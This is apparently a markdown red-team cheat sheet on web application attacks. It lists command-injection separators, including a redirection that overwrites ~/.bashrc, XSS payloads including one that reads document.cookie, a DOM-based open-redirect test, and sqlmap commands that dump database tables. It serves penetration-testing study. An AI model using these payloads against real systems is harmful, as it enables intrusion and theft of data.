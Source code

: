 # Red Team

## Information Gathering

**>> [Z_Networks/Web Application](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Z_Networks/Web%20Application.md)**

**>> [1_Reconnaissance/Active/Web Application](https://github.com/p-arrow/RedTeam-Guide/blob/main/1_Reconnaissance/Active/Web%20Application.md)**


<br />

## Exploitation

### 1) Command Injection

#### Command Injection into available input masks
- Sequential: `/bin/exploit ; malicious_code`
- Pipeline: `/bin/exploit | malicious_code` (use output of exploit as input for malicious_code)
- Substitution: `/bin/exploit 'malicious_code'` (output of malicious_code as arg to exploit)
- Substitution: `/bin/exploit $(malicious_code)` (output of malicious_code as arg to exploit)
- Redirection: `/bin/exploit > ~/.bashrc` (overwrite bashrc)

### 2) XSS
- [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

#### Quick & Dirty:
     - `<script>alert("XSS LEAK")</script>`
     - `<script>alert(document.cookie)</script>`

#### DOM Based URL Redirection
- Look for `https://example.com/#dashboard`
- The value after `#` is accessible by Javascript
- Use `window.location.hash`
- If URL Redirection is in place you can test if a redirection to an external site is possible
- Enter `https://example.com/#www.externalsite.com`
- Activate the redirection via Javascript
- `window.location = window.location.hash.substr(1)`: use substr() to remove the '#'
- Following mitigations exist:
   - A) URL Whitelisting: `https://example.com/redirect?externalPage=1` or `https://example.com/redirect?page=dashboard`
   - B) REGEX

### 3) SQLi

#### sqlmap
```
--> HTTP POST request: (after interception) save request to file (Burpsuite)
--> sqlmap -r request -p password (-p = analyze Parameter from POST method)
--> sqlmap -r request -D [database] --tables
--> sqlmap -r request -D [database] -T [table] --dump
--> -p "Parameter" -u "url" --tables
--> -p "Parameter" -D [DBMS] -T [Table] --dump -u "url"
```
